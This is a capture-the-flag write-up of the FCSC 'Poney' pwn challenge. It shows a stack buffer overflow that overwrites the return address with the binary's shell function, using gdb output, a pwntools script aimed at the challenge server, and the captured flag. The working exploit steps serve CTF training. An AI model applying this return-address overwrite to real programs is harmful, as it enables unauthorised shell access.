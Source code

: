 # Poney

![enonce](images/enonce.png)

```bash
$ file poney 
poney: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=06fdfc3c264bdc167a0855288210c06e16ce805e, not stripped
```

![decompile](images/decompile.png)

![radare2](images/radare2.png)

![pattern_create_offset](images/pattern_create_offset.png)

```bash
$ nm poney | grep shell
0000000000400676 T shell
$ python3 
>>> import pwn
>>> pwn.p64(0x00400676)
b'v\x06@\x00\x00\x00\x00\x00'

>>> pwn.p64(0x00400676).decode()
'v\x06@\x00\x00\x00\x00\x00'

$ gdb poney
gdb-peda$ r < <(python -c "print 'A' *40 + 'v\x06@\x00\x00\x00\x00\x00'")
Starting program: /mnt/hgfs/shared/fcsc/intro/Poney/poney < <(python -c "print 'A' *40 + 'v\x06@\x00\x00\x00\x00\x00'")
Give me the correct input, and I will give you a shell:
>>> [Attaching after process 7169 vfork to child process 7197]
[New inferior 2 (process 7197)]
[Detaching vfork parent process 7169 after child exec]
[Inferior 1 (process 7169) detached]
process 7197 is executing new program: /usr/bin/dash
[Attaching after process 7197 fork to child process 7199]
[New inferior 3 (process 7199)]
[Detaching after fork from parent process 7197]
[Inferior 2 (process 7197) detached]
process 7199 is executing new program: /usr/bin/bash
[Inferior 3 (process 7199) exited normally]
Warning: not running
gdb-peda$ quit
```

Automatisons le processus avec **pwntools**:

```py
import pwn

remote = True

if remote:
    io = pwn.remote('challenges1.france-cybersecurity-challenge.fr', 4000)
else:
    io = pwn.process(elf.path)

pwn.context.log_level = 'debug'

elf = pwn.context.binary = pwn.ELF('poney')
offset = 40
shell = pwn.p64(elf.symbols.shell)
payload = "A"*offset + shell

pwn.info("Shell address: %#x ", elf.symbols.shell)
pwn.info("Little Endian shell address: %s ", shell)
pwn.info("Payload: %s ", payload)

io.sendline(payload)
io.interactive()
io.close()
```

![flag](images/flag.png)

flag: `FCSC{725dd45f9c98099bcca6e9922beda74d381af1145dfce3b933512a380a356acf}`